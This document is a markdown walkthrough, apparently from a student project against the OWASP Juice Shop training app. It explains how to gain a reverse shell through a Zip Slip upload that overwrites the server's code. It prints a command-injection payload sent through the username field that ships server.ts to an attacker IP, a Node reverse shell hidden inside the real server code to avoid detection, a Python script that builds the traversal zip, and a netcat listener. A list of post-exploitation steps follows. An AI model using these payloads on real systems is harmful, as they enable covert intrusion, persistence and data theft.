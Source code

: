 # Server-side Attack

This is a guide on how to get a reverse shell on the server hosting the juice shop website based on the **Zip Slip** vulnerability to write arbitrary files, in this case, to write the server code file.

## How to attack the server

### Part 1 - Server files exploration

* To successfully attack the server without detection, it's crucial to discreetly alter specific files. We need to understand which files to modify and their contents, allowing us to hide our exploit effectively and make it difficult to discover.
* During our project, we identified numerous vulnerabilities on the website, with a particularly significant one in the profile's username field. This vulnerability allows us to execute code on the server machine. Using this, we can run a command to list all directory contents ("ls") and send the output to a listening service.

So, changing the username of a user in (URL) to :

```javascript
const { exec } = require('child_process'); const net = require('net'); exec('cat server.ts', (err, stdout,stderr) => { const client = new net.Socket();client.connect(4444, 'IP_ADDRESS', () => {client.write(stdout);client.end();});});

```

where the IP_ADDRESS is the ip of the attacker.

* Using this strategy, we will eventually discover that the server code resides in **server.ts**. By executing a similar command ("cat server.ts"), we can reveal its contents.

* With further exploration, we can determine that every file submitted in the complaints to the website is stored in the 'uploads/complaints' directory.

### Part 2 - The attack

* With the knowledge obtained in the part 1, we can now attack the server.
* Now, we create a file called **server.ts** that contains the same code as the original server file and the actual exploit carefully hidden in the middle of the real code like this:

```javascript
(real code)

/* Exploit */
let net = require("net")
let cp = require("child_process")
let sh =  cp.spawn("/bin/sh", []);
let cl = new net.Socket();
cl.connect(4444, "IP_ADDRESS", function(){ cl.pipe(sh.stdin); sh.stdout.pipe(cl); sh.stderr.pipe(cl); });


(real code)

```

where the IP_ADDRESS is the ip of the attacker.

* After creating the malicious server code file, we can put it inside a zip file, with this structure: '../../server.ts'
* This way, we go to the actual directory where the real server file is located and we can rewrite it.

```python

import zipfile
PATH = "../../"

def main():
    zf = zipfile.ZipFile("evil.zip", "w")
    zf.write("server.ts", PATH + "server.ts")
    zf.close()
if __name__ == '__main__':
    main()


```

* Now, we just submit the zip file in the complaints page (URL)
* We can open a terminal listening to the port defined: `nc -lnvp 4444`
* After submitting, we need to wait until the server restarts.
* Once it restart, we will get a shell on the server machine.

### Part 3 - Exploration and Privilege Escalation

Once inside, there are a lot of things we can do:

* Enumerate user accounts and their privileges.
* Investigate running processes for potential vulnerabilities or misconfigurations.
* Search for configuration files that may contain sensitive information or credentials.
* Search for open ports and services to identify potential attack vectors.
* Inspect system logs for any unusual or suspicious activities.
* Utilize known exploits or vulnerabilities specific to the operating system or installed software.
* Attempt to escalate privileges using kernel exploits if applicable.
* Conduct a thorough review of cron jobs and scheduled tasks for any opportunities.
* Explore network shares and mounted filesystems for additional data or access points.
